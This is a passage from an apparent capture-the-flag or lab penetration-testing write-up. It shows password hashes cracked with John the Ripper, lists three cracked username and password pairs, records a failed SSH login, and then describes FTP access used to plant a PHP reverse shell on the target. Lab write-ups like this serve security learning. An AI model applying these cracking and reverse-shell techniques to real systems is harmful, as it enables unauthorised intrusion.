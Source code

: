 ->![](/images/2012-04-09/05.png)<-

I exported these into a text file and cleaned up the quotes around the strings. I passed these to john for cracking using a wordlist I obtained from http://contest-2010.korelogic.com/wordlists.html. If I could get one login, I might be able to SSH or FTP into the server.

```
# /pentest/passwords/john/john --wordlist=/wordlists/rockyou.txt ftppass 
```

After a while, three passwords were cracked:

```
cbergey:chatterbox1:1031:2002::/home/cbergey/./::::::::::::
tmartin:millionaire:1031:2002::/home/tmartin/./::::::::::::
ahuxley:bravenewworld:1031:2002::/home/ahuxley/./::::::::::::
```

It was time to try logging in.

```
# ssh ahuxley@192.168.1.88
ahuxley@192.168.1.88's password: 
Permission denied, please try again.
ahuxley@192.168.1.88's password: 
Permission denied, please try again.
ahuxley@192.168.1.88's password: 
```

SSH didn't work, but FTP proved to be more rewarding. I was able to FTP in as ahuxley, and knowing that I could read files and thus launch PHP files once I'd uploaded them into the FTP server, I would be able to launch a PHP reverse shell and gain shell access into the server:
